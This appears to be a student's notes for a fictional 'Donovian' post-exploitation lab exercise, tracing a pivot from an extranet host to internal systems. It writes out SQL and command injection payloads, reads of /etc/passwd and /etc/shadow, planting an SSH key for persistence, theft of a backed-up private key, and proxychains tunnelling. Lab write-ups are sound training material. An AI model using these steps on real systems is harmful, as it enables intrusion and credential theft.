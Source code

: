Donovian Post Exploitation (DPE)
XX Mar 2024
Start Time: 1300
Duration: 4 hours

Type of Operation: Cyber Intelligence, Surveillance and Reconnaissance (C-ISR)

Objective: Maneuver through Donovian-Extranet, identify and gain access futher into Donovian internal Cyberspace, it is believed that there is an network that acts as an internal DMZ between these to locations. Intelligence was able to identify the last octet of a system that resides in the Donovian internal Cyberspace.

Tools/Techniques: All connections will be established through SSH masquerades or web browser. Ports in use will be dependent on target location and are subject to change. Network scanning tools/technique usage is at the discretion of student. Credential reuse is authorized

Scenario Credentials: FLAG = P05T3xpl01t5t@rtoF@ct1v1ty

Prior Approvals: Sudo usage and remote port forward is authorized. System dir walks from system roots, altering accounts/routing or tool uploads are authorized. Survey and access to newly discovered systems during C-ISR.

Scheme of Maneuver:
>Jump Box
->T1: 192.168.28.100
-->T2:X.X.X.X
-->T3:x.x.x.9

Target Section:

T1
Hostname: Donovian_Extranet
IP: 192.168.28.100
OS: CentOS
Creds:Unknown
Last Known SSH Port: 2222
PSP: none
Malware: none
Action: Perform SSH masquerade and survey system. Identify redirection to the next target.

T2
Hostname: Donovian_Intranet
IP: X.X.X.X
OS: Ubuntu
Creds:Unknown
Last Known SSH Port: X
PSP: none
Malware: none
Action: Perform SSH masquerade and survey system. Identify redirection to the next target.

T3
Hostname: Donovian_Internal
IP: x.x.x.9
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
PSP: Unknown
Malware: Unknown
Action: Gain access; survey host and map Donovian internal Cyberspace.

## Extranet
### Extranet 1 

Utilizing the intelligence provided, enumerate the target provided. Look for user generated documents, relating to network structure, on this host that will direct further actions.

192.168.28.100/login.php
admin' or 1='1
admin' or 1='1

192.168.28.100/admin/admin.php
; ls -la
; cat /etc/passwd
- www-data
- root
- comrade
; cat /home/comrade
- .ssh
- Dekstop
; cat /home/comrade/Dekstop
- network
; cat /home/comrade/Dekstop/network
- .mapkey.txt
  - vQFMfQNpDRpo7cic9daQ
- map.png

### Extranet 2

The Donovian government is furthering their inventory expansion project. Identify and locate this intel to support this.

; cat /home/comrade/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDgP2uXYcb+W40AxfGwjsfFlA6jR1/zL711bXQAjvAuEv5L6tNVkdDyNNdD66Q8Jwsh8DzLPDqeOTmQr7FDMAO5sCD7z+R+kEpvoVzBsgKXL22l2ipxGtCxJzhI1HT16fYB1BZPqmZpJylBdym3KN0yZvgFMs7B0jb9SFkh/+Jp1OxzohX88Xc2j+Dk1URkY0xZOTvOgYafFjbFINaeuVMqb+YeEyj9jxxNFo69F4selrftFmaf5AupSiW+P8GjOReArWBxEgvcLqshl+gTuf817jxb2terzW8f/qVK09XsepMPPZ5elfUqSzK1N3a4sTu1+0EsGALGjB/iSXbeCmcD comrade@extranet.site.donovia

On target
mkdir /var/www/.ssh 	(or whatever home directory)
echo "RSA KEY" > /var/www/.ssh/authorized_keys   ( might have to change the home directory )
cat /var/www/.ssh/authorized_keys

On opstation
ssh-keygen -t rsa -b 4096
cat .ssh/id_rsa.pub
ssh www-data@ip
- got in with www-data user

find / 2>/dev/null | grep inventory
- /usr/share/equip-inventory.txt
  - MmhIT1dNNTdjN3ZVUld2U1dvdG4K

proxychains scp -P 2222 www-data@192.168.28.100:/home/comrade/Dekstop/network/map.png .

cat /etc/hosts

## Intranet
### Intranet 1
Enumerate all network items, relating to name resolution.

#### On Extranet
cat /etc/hosts
cat /etc/cron*
- /etc/cron.d/crontab
  - 'comrade backup .ssh dir'
proxychains scp -P 2222 www-data@192.168.28.100:/tmp/backup.tar.gz .
mv backup.tar.gz 192.168.28.100
tar -xvzf backup.tar.gz 
- 192.168.28.100/.ssh/id_rsa
- 192.168.28.100/.ssh/id_rsa.pub
proxychains ssh -p 3201 -i /home/student/192.168.28.100/.ssh/id_rsa comrade@192.168.150.253

#### On Intranet
nmap host
- :80 default apache server page

cat /etc/hosts
- get flag

### Intranet 2
Enumerate all items related to syslog and rsyslog.

find / 2>/dev/null | grep syslog.conf
ls -la /etc/rsyslog.d
- cat /etc/rsyslog.d/50-default.conf

### Intranet 3
Enumerate user directories on the machine. Find artifacts of malicious intent. You might need higher privileges...

sudo su
ls -la /root/brootkit
cat /root/brootkit/brootkit-master/br.conf

### Intranet 4
Enumerate for security products that may be installed on the system. (i.e. antivirus, etc.)
- Research the top 10 antivirus programs for Linux.

ls -la /etc/cron.daily
- rkhunter
ls -la /etc
- rkhunter.conf
find / 2>/dev/null | grep rkhunter
cat /etc/rkhunter.conf

### Intranet 5
Enumerate information related the users on this system.
cat /etc/users
cat /ect/shadow

### Intranet 6
Enumerate items that would be related to jobs and tasks that running on the host, you may need to use higher privileges.

ls -la /var/spool/cron/crontabs
cat /var/spool/cron/crontabs/root
- flag

### Intranet 7
Find the beacon being received by the intranet host and determine how to interact with it.

cat /etc/hosts
- 192.168.56.1
```
tcpdump host 192.168.56.1 -vv
tcpdump port 514 -vv
tcpdump -i ens3 not host 192.168.28.100 -vv -X 
tcpdump src 192.168.56.1 -vv -X
```
tcpdump host lin.intranet.donovia and host 192.168.28.135 -vv -X
nc -lvnp 12335
- decode base64
  - get flag

## Internal
### Internal 1
You have been tasked to collect intelligence relating to one of the Donovian General Officers.
The Gorgas Allied intelligence cell have determined that the 3rd and 4th octet of the the Donovian Internal Network is xxx.xxx.28.9

set up forward tunnel
use RDP
- xfreerdp /v:127.0.0.1:<tunnel> /u:comrade /p:<password> /size:1920x1024 +clipboard

### Internal 2
The Gorgas Government has informed your team that sensitive technology data may be present within their Internal network. Enumerate directories critical to the OS and locate the data.


### Internal 3
You have been tasked to validate whether a persistence mechanism has already been set on this host.

